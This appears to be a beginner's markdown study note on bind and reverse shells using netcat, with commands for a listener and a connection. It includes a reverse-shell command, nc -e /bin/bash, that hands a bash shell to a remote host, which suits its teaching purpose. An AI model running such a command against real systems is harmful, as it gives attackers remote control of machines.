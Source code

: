 ```yaml
---
tags:
  - shell
  - RevShell
  - netcat
  - nc
---
```

# Shells and Tools

***The shell is the piece of software that translates the processes into the system by just a simple command system. The shells are like: `PowerShell` and `Bash`***

## Tools can be used to make shells

The Shells is a great utility on the system, but if a hacker owned one on your system you would be in a great danger.

**Owning** a shell on a machine to remotely execute code with high privileges might be if it isn't the highest thing a hacker could make on a machine, it can be done by tools opens the connection to a command executing shell on the machine.


### `Netcat`

`Netcat` is the classic one to create shells. The shells can be created by executing a command on both sides to establish the connection.

Let's say i want to connect to a shell on a machine the IP of it is `10.0.0.1`, first i must make it opens a port to send my request and even make the machine wait my request on, which can be done by executing this command on the other side machine -which is called a listener- :
```bash
nc -lvnp 69
```

Now I must make a request from my side to connect to this machine on the waiting port:
```bash
nc 10.0.0.1 69
```

The meaning of the flags:
- **-l** is used to tell `netcat` that this will be a listener
- **-v** is used to request a verbose output
- **-n** tells `netcat` not to resolve host names or use `DNS`.
- **-p** indicates that the port specification will follow.
### Other tools

There are other tools like `metasploit` and `msvenom` which you can make connection with but with different methods.

___
# Shell Types

***There are mainly two types of shells:***
## Bind Shell

**The bind shell** is to put a listener on the machine, opening a port for you to make the request from your side and connect.

Putting the listener:
```bash
nc -lvnp 69
```

Connecting the open port:
```bash
nc 10.0.0.1 69
```
and it's done

## Reverse Shell

The reverse shell is totally the opposite of the bind shell, your side would be the listener side and the other side would be one who is making the request to give you the connection!!

opening a listener on your side: 
```bash
nc -lvnp 69
```

Now make the other side give you the connection:
```bash
nc 10.0.0.1 69 -e "/bin/bash"
```

and it's done

##### There also the interactive and non-interactive shells and the difference between them is that the interactive can take user inputs the non is not, and most of the bind and reverse shells are non-interactive.

---
